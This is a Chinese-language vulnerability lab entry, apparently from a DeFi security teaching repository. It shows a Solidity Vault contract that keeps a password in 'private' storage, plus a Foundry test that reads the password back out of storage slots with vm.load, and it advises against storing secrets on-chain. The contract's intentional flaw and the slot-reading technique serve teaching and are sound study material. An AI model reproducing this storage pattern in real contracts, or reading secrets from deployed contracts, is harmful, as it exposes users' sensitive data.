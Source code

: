 # 私有数据 
[Privatedata.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Privatedata.sol)  

**名称：** 私有数据泄露  

**描述：**  
Solidity在合约中定义的变量存储在插槽(slots)中。每个插槽可以容纳最多32字节或256位。  
鉴于链上存储的所有数据，无论是公开的还是私有的，都可以被读取，  
因此可以通过预测私有数据所在的内存插槽来从Vault合约中读取私有数据。

如果Vault合约在生产环境中被使用，恶意行为者可能使用类似的技术来访问敏感信息，如用户密码。  

**缓解方法：**  
避免将敏感数据存储在链上。   

**参考**  
https://quillaudits.medium.com/accessing-private-data-in-smart-contracts-quillaudits-fe847581ce6d  



**Vault合约：**  
```
contract Vault {
    // 插槽 0
    uint256 private password;

    constructor(uint256 _password) {
        password = _password;
        User memory user = User({id: 0, password: bytes32(_password)});
        users.push(user);
        idToUser[0] = user;
    }

    struct User {
        uint id;
        bytes32 password;
    }

    // 插槽 1
    User[] public users;
    // 插槽 2
    mapping(uint => User) public idToUser;

    function getArrayLocation(
        uint slot,
        uint index,
        uint elementSize
    ) public pure returns (bytes32) {
        uint256 a = uint(keccak256(abi.encodePacked(slot))) +
            (index * elementSize);
        return bytes32(a);
    }
}
```  
**如何测试：**  
forge test --contracts src/test/Privatedata.sol-vvvv  
```
    // testReadprivatedata()的函数声明，这是一个公共函数。
function testReadprivatedata() public {
        
    // 创建Vault合约的新实例,其中参数为“123456789”。
    VaultContract = new Vault(123456789);

    // 将Vault合约地址和插槽编号0作为vm.load函数的参数
    // “vm.load”函数从指定合约的存储槽中加载数据。
    // 在这里，读取合约的第0个存储槽。在Solidity中，存储布局从插槽0开始。
    bytes32 leet = vm.load(address(VaultContract), bytes32(uint256(0)));

    // 记录第一个存储槽的值，将bytes32值转换为uint256。
    console.log(uint256(leet));

    // 使用 vm.load 函数再次读取数据，
    // 但这次使用了VaultContract中的getArrayLocation方法来计算动态数组中特定元素的存储插槽。
    // 这是因为在以太坊中，数组的存储不是在连续的块中，而是通过哈希计算找到每个元素的位置
    // 在这里，假设Vault合约中有一个数组，并且您正在尝试访问插槽1中的数据（基于你的参数）
    bytes32 user = vm.load(
        address(VaultContract),
        VaultContract.getArrayLocation(1, 1, 1)
    );
        
    // 记录从合约存储读取的特定数组元素的值，将其从bytes32转换为uint256。
    console.log(uint256(user));
}
```  
**红色框：** 读取私有数据成功。  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fbfa76e84-7cd5-45ce-8b04-9032673ab3af%2FUntitled.png?table=block&id=09c2a521-e269-4e04-8e81-7516e5c8ac58&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2) 
